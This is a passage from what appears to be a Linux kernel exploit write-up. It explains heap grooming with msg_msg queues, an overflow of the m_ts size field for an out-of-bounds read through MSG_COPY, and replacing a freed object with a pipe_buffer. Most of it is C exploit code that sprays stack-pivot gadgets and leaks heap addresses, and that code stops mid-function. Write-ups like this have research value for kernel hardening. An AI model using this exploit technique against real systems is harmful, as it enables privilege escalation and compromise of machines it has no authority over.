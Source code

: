 Heap Setup:



 Overflow into m_ts (size) to achieve OOB read on MSG_COPY:


You can also figure out which msg_queue those leaked addresses belonged to based on the contents in msg_msg data, so you can seletively free them and rely on LIFO to place objects there in advance. I replaced the kmalloc-1k one with a pipe_buffer object while kmalloc-512 already had stack pivot gadgets ready.


The following snippet code should lead to a heap leak: 

double_heap_leaks do_heap_leaks()
{
    uint64_t kmalloc_1024 = 0;
    uint64_t kmalloc_512 = 0;
    char pivot_spray[0x2000] = {0};
    uint64_t *pivot_spray_ptr = (uint64_t *)pivot_spray;
    double_heap_leaks leaks = {0};
    int linked_msg[256] = {0};
    char pat[0x1000] = {0};
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    msg *message = (msg *)buffer;

    // spray kmalloc-512 linked to kmalloc-64 linked to kmalloc-1k in unique msg queues
    for (int i = 0; i < 255; i++) 
    {
        linked_msg[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        memset(pivot_spray, 0x0, sizeof(pivot_spray));
        pivot_spray_ptr[0] = 1;
        for (int i = 0; i < 10;i ++)
        {
            pivot_spray_ptr[i+1] = stack_pivot;
        }

        // spray pivots using kmalloc-512 allocations
        send_msg(linked_msg[i], pivot_spray, 0x200 - 0x30, 0);
        memset(buffer, 0x1+i, sizeof(buffer));
        message->mtype = 2;
        send_msg(linked_msg[i], message, 0x40 - 0x30, 0);
        message->mtype = 3;
        send_msg(linked_msg[i], message, 0x400 - 0x30 - 0x40, 0);
    }

    int size = 0x1038;
    int targets[H_SPRAY] = {0};

    for (int i = 0; i < H_SPRAY; i++) 
    {
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0);
    }
